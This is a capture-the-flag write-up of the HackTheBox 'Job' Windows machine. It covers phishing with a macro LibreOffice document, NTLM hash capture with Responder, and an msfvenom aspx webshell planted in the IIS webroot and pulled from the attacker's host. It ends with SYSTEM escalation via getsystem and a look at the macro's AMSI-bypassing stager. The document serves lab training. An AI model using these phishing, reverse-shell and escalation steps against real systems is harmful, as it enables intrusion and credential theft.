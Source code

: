 # [HackTheBox - Job](https://app.hackthebox.com/machines/Job)
![b7e7f7bd99b41a69580c344a96e11a66.png](/_resources/b7e7f7bd99b41a69580c344a96e11a66.png)
[toc]
***
## Abstract
Job is a vulnlab machine imported to HackTheBox as a medium Windows box. I started with network enumeration using nmap, which showed the host was a Windows server running SMTP, HTTP, SMB, RDP, and WinRM.

During web enumeration I discovered an email address on the site that could be used for phishing via the exposed SMTP service. I used Metasploit’s "odt_badodt" module to craft a macro-embedded LibreOffice (.odt) file for a reverse shell and obtained an initial shell as "jack.black".

"jack.black" is a member of the "developers" group, which has Full Control over the webroot. I uploaded a webshell and gained a second reverse shell as "IIS APPPOOL\DefaultAppPool". This account has SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege, which I leveraged with Meterpreter’s getsystem (token impersonation) to escalate to SYSTEM and root the box.

## Enumeration

Starting with nmap port scanning and we can see that there are multiple ports opened including 25,80,445,3389 and 5985
```
nmap $IP
```
![0ff4321b40407db815d0281a3e16abb3.png](/_resources/0ff4321b40407db815d0281a3e16abb3.png)

Then I did another scan but this time I specified all ports identified from previous scan and use `-sCV` for service enumeration and run nmap script engine but we did not get much return for this command so we gonna take a look at the website next.
```
nmap $IP -p 25,80,445,3389,5985 -sCV
```
![ff7ee6a85745d545270059d887bda175.png](/_resources/ff7ee6a85745d545270059d887bda175.png)

On the website, we can see that we must send libre office (odt) file to career@job.local via SMTP protocol, classic phishing case it is.
![6776c064c11e7a6723686025fd527f94.png](/_resources/6776c064c11e7a6723686025fd527f94.png)

Techstack of this website is nothing too special, everything is by default from IIS to Microsoft ASP.NET
![ceb607bb990ec0cfaad085e627d45c81.png](/_resources/ceb607bb990ec0cfaad085e627d45c81.png)

First I will use the "odt_badodt" Metasploit module to quickly generate a LibreOffice file that references a non-existing object on our share to force NTLMv2 authentication; when Windows attempts to access the UNC path it sends an SMB authentication (NTLMSSP) containing the NTLMv2 challenge/response to the target host. (btw I had to run as root because of Permission denied error)
```
use auxiliary/fileformat/odt_badodt
set lhost tun0
set creator mark
set filename resume.odt
run
```
![9a42b89ba42ceeefc336b7eac3f5a27a.png](/_resources/9a42b89ba42ceeefc336b7eac3f5a27a.png)

Then I set a responder to wait for the request on tun0 interface which is our HTB VPN interface.
```
sudo responder -I tun0
```

After responder is ready, We can send an email with an attachment to the server like this
```
sendemail -s $IP -f "mark <mark@job.vl>" -t career@job.local -o tls=no -m "Please review my resume senpai uwu" -a resume.odt 
```
![726803fe7c8f17c000b4b58b09721e92.png](/_resources/726803fe7c8f17c000b4b58b09721e92.png)

And sure enough, the SMB authentication was sent from the machine back to us and we can see that "jack.black" was aggressively review our attachment.
![6e8a12a626c29932d1beba2db9e2dd5a.png](/_resources/6e8a12a626c29932d1beba2db9e2dd5a.png)

I tried to crack the hash with John The Ripper given the infamous `rockyou.txt` wordlist but no luck which mean the password of this user is not in `rockyou.txt` wordlist so cracking is not the way.
![d2e532f4866ec92e387739b66f576361.png](/_resources/d2e532f4866ec92e387739b66f576361.png)

## Initial Access with ODT file to reverse shell

Since we know that "jack.black" will definitely open any odt attachment we give to him so let's change the plan to make macro document that will trigger a reverse shell back to us upon opening 

Luckily for us that Metasploit got us cover with "openoffice_document_macro" module so we set a payload and send this as an email attachment again.
```
use multi/misc/openoffice_document_macro
set payload payload/windows/x64/shell/reverse_tcp
set LHOST tun0
set SRVPORT 80
set SRVHOST tun0
set URIPATH serve
run
```
![7a90282f11ae718fa08fafc379bca41d.png](/_resources/7a90282f11ae718fa08fafc379bca41d.png)

Send email again with newly created document from metasploit  and we can see that we get a shell back as "jack.black" user as expected
```
sendemail -s $IP -f "mark <mark@job.vl>" -t career@job.local -o tls=no -m "Please review my resume senpai uwu" -a msf.odt
```
![6d8b39a46641294b7af51c93b88698fa.png](/_resources/6d8b39a46641294b7af51c93b88698fa.png)
![2fe4b8d013519229ec52fb88c8fc9d3a.png](/_resources/2fe4b8d013519229ec52fb88c8fc9d3a.png)

User flag is located on the desktop of this user so we can loot it and start enumerating for privilege escalation vector.
![38d94ac15fefb064c79b1258135e2ea2.png](/_resources/38d94ac15fefb064c79b1258135e2ea2.png)

If normal shell is not enough, we can also change our payload to meterpreter to get a meterpreter session as well.
![9cbeb18d6f6024777201b5290417ca41.png](/_resources/9cbeb18d6f6024777201b5290417ca41.png)

## Privilege Escalation - Webroot modification to SeImpersonatePrivilege 
### Get shell as DefaultAppPool via webshell
After exploring the machine, we can see that this user is in the "developers" group which have full access to "wwwroot" folder and thats mean we can do anything to this folder including drop a webshell on it.
![8ffd1c418cee011023c1695b24ed9c31.png](/_resources/8ffd1c418cee011023c1695b24ed9c31.png)

Since the server is running IIS (which commonly hosts ASP.NET and executes .aspx pages), We can add an .aspx webshell and trigger it on our web browser which will triggered a reverse shell back to us. but first we need to create webshell first (alternatively you can use pre-made aspx shell like landanum for this as well)
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=5555 -f aspx > shell.aspx
```
![033fcfee46352a5d7717388c44239db3.png](/_resources/033fcfee46352a5d7717388c44239db3.png)

We can use lolbin to download file or even PowerShell to the webroot folder and PowerShell is much more convenient for me. (or use upload function in meterpreter)
```
iwr http://10.10.14.101:8000/shell.aspx -o shell.aspx
```
![d6c4fb1716856d8cd8835dbe91a9ed78.png](/_resources/d6c4fb1716856d8cd8835dbe91a9ed78.png)

Now we have our payload ready but we will also need to set up our listener and "multi/handler" module is the most suitable one for the payload we just created eariler.
```
use multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost tun0
set lport 5555
run
```

I accessed the webshell in my browser, which triggered a reverse shell payload and spawned a new Meterpreter session. Interacting with the session shows we have a shell as "IIS APPPOOL\DefaultAppPool" — the application-pool identity for IIS. App-pool identities often have SeImpersonatePrivilege (allowing impersonation), which can be abused for token/privilege-stealing techniques.
![c9de59cf0261e68c96492617e9a8093c.png](/_resources/c9de59cf0261e68c96492617e9a8093c.png)

### Become SYSTEM with SeImpersonatePrivilege
There are multiple tools that can be used to leverage 
SeImpersonatePrivilege and Meterpreter already have couple methods for that which we can just simply run a single command from meterpreter session and finger cross 🤞 we are SYSTEM now.
```
getsystem
```
![c66ee0736a8e9a37f08b1bdf716a7811.png](/_resources/c66ee0736a8e9a37f08b1bdf716a7811.png)

Now we root the box and done :D
![c41327a9263c49e879d643a2b7e171b4.png](/_resources/c41327a9263c49e879d643a2b7e171b4.png)

https://labs.hackthebox.com/achievement/machine/1438364/757
***
## Bonus - ODT attachment inspection
### NTLM Theft ODT
In metasploit, when we create a bad odt file, it will embeded an image that will load non-existing file on our share drive upon loading this document hence the SMB authentication to our responder. 
![724783bd163ef84d2f7d2392bf5ec306.png](/_resources/724783bd163ef84d2f7d2392bf5ec306.png)
![7cb47e2111502893094c88016881d3fb.png](/_resources/7cb47e2111502893094c88016881d3fb.png)

### Reverse Shell ODT
On the ODT file that responsible for reverse shell, it will be embeded as a macro which will automatically launched upon opening if Macro is enabled on the target. 
![7b07d8ce4d11f1b06574885369afe1db.png](/_resources/7b07d8ce4d11f1b06574885369afe1db.png)

Inspecting the macro, we can see that there is "OnLoad" function that will check the OS of the target that opened this file and if it can run powershell then it will fetch and execute payload hosted on with metasploit. (This is a stager payload so it make sense that it will fetch another payload from the server upon execution)
![349a26ff5345cab7941ac7e697de490b.png](/_resources/349a26ff5345cab7941ac7e697de490b.png)

The payload will attempt to bypass Scriptblock logging and Amsi before execute another powershell payload that was gzipped and base64 encoded.
![0e4d5802f4d1f8def35f2d32ed4c8d98.png](/_resources/0e4d5802f4d1f8def35f2d32ed4c8d98.png)

The last payload will eventually inject shellcode into the memory and result in reverse shell between target host and our machine
![8f5d0b17bce4c7b29afe12fc1654dd2e.png](/_resources/8f5d0b17bce4c7b29afe12fc1654dd2e.png)

That's it for today, peace!
* * *